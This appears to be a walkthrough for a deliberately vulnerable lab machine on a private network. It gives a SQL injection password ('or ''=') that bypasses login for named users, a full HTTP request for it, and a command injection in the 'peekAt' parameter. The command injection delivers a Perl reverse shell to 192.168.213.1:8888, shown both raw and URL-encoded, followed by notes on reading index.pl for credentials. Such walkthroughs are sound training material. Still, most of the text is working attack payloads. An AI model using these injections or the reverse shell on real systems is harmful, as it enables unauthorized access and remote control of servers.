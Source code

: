 SQL Injection
==================
There is a SQL injection in the logon form. The folowing basic
injection should grant access when used as a password " ' or ''=' "
and either the username psimon or agarfunkel.

```
POST /index.pl HTTP/1.1
Host: 192.168.213.130
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.213.130/index.pl
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

username=psimon&password=%27+or+%27%27%3D%27&login=Login&csrfToken=61E4B652-A065-11E5-8B5C-BED7AF43658F
```

Command Injection
==================
There is a command injection in the "profile" paramater. It is used in a
`` expresseion to ls the media directory. A basic perl reverse shell should
be able to be launched using Burp and an authenticated "peek" request.

perl -e 'use Socket;$i="192.168.213.1";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
*Hint*
Make sure to URL encode the payload...

```
POST /index.pl HTTP/1.1
Host: 192.168.213.130
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.213.130/index.pl
Cookie: SESID=61972a1aaf96d44be89cc28250e99e26
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 297

peekAt=agarfunkel| perl+-e+'use+Socket%3b$i%3d"192.168.213.1"%3b$p%3d8888%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">%26S")%3bopen(STDOUT,">%26S")%3bopen(STDERR,">%26S")%3bexec("/bin/sh+-i")%3b}%3b'
 |echo &csrfToken=03054730-A067-11E5-9A29-D12593CF92DC
```

Lateral Movement
==================
Once the reverse shell is poped you can read the index.pl file in the /var/www/html
directory. Hopefully the attacker picked up on the clues in the debug messages and
looks at index.pl's source and finds Paul's password. This should allow the attacker
to log in to paul's account.